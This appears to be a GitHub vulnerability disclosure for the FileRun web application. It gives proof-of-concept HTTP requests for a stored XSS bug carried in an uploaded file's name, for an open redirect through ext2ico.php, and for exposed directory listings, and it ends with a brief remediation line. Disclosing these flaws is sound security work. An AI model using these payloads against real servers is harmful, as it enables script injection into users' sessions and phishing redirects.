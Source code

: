 # FileRun Vulnerabilities and Exploits
[FileRun](https://filerun.com) application has many vulnerabilities.

## CVE-2019-12457 - CVE-2019-12458 - CVE-2019-12459 - CVE-2019-12905

## PoC - XSS
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12905

To exploit vulnerability, someone could upload an allowed file named ```“><img src=x onerror=prompt(document.domain)>``` to impact users who open the page.

```
POST /filerun/?module=fileman&section=do&page=up HTTP/1.1
Host: 172.16.191.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.191.129/filerun/
Content-Type: multipart/form-data; boundary=---------------------------142096305821079611661465592403
Content-Length: 6034
DNT: 1
Connection: close
Cookie: FileRunSID=aqlneuv86ccj3pi4h476faopi5

-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowTotalSize"

5100
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsFirstChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsLastChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowFilename"

â><img src=x onerror=prompt(document.domain)>.jpg
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="path"

/ROOT/HOME
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="file"; filename="â><img src=x onerror=prompt(document.domain)>.jpg"
Content-Type: image/jpg

<%@ I said you should learn! %>


-----------------------------142096305821079611661465592403--
```

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-02.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-03.png)

## PoC - Open Redirect
An open redirect vulnerability exists in FileRun in '**/filerun/images/fico/ext2ico.php?theme=**' URL that allows attackers to redirect users to an arbitrary URL. A web application accepts a user-controlled input that specifies a link to an external site, and uses that link in a Redirect.

```
GET /filerun/images/fico/ext2ico.php?theme=https://filerun.com/isaid:)? HTTP/1.1
Host: 172.16.191.129
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: FileRunSID=8ig5vcpk39v1cilv3uq7dp8crn
Referer: http://172.16.191.129/filerun/js/min.php?v=2019.05.21
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Content-Length: 4
```
![alt tag](https://emreovunc.com/blog/en/FileRun-OpenRedirection-Vulnerability.png)


## PoC - Directory Listing
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12457

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12458

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12459

```
http://[server]/filerun/images/extjs/
http://[server]/filerun/css/ext-ux/
http://[server]/filerun/customizables/plugins/audio_player/
```
![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-1.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-2.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-3.png)

## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
